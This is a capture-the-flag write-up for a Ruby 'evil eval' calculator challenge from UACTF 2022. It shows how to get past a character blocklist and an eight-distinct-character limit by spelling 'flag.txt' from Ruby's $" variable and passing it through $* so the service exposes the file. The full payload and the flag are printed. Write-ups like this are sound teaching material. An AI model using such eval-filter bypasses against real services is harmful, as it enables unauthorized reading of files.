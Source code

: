 +++
title = "Evil Eval - UACTF 2022"
author = "Javad Hamidi"
date = "2022-08-07"
description = "Made a cool internet calculator for all your maths needs. Well, some of your maths needs."
tags = ["Pwn"]

+++
Trying a variety of inputs over netcat, you'll quickly discover two key pieces of information from the error messages:

1. The characters 'f', 'l', 'a', 'g', '.', 't', 'x', 't', and '`' are all blocked
2. Our input can't have more than eight distinct characters

We can infer that our goal is something to the effect of making a system call like `cat flag.txt` in eight or fewer characters. Looking through [Ruby's pre-defined variables](https://ruby-doc.org/docs/ruby-doc-bundle/Manual/man-1.4/variable.html), we can see that `$"` denotes a long list of module names (loaded by require) which we can potentially character index and frankenstein together to write out "flag.txt" in relatively few distinct characters, like so:

```
f -> $"[11+1+1+1][11+11+11]
l -> $"[1+1+1][1+1+1+1]
a -> $"[1+1][1]
g -> $"[11][11+11+1+1]
. -> $"[1][1+1+1+1+1+1]
t -> $"[1+1][1+1]
x -> $"[1+1+1][1+1+1+1+1+1]
t -> $"[1+1][1+1]
```

The next step is to get Ruby to print the contents of this file. One trick is to pass `ARGV << flag.txt`, which will cause our ruby script to call itself, passing the evaluated contents of `flag.txt` to itself, exposing the flag. Of course, this requires two many distinct characters, but by referring back to our trusty pre-defined variables, we see that the much shorter `$*` is an alias to `ARGV`. Putting all this information, we can create the following 'payload' to expose the flag:

```
$*<<$"[11+1+1+1][11+11+11]+$"[1+1+1][1+1+1+1]+$"[1+1][1]+$"[11][11+11+1+1]+$"[1][1+1+1+1+1+1]+$"[1+1][1+1]+$"[1+1+1][1+1+1+1+1+1]+$"[1+1][1+1]
```

**Flag:** `UACTF{8u7_53210u51y_d0n7_3v41}`
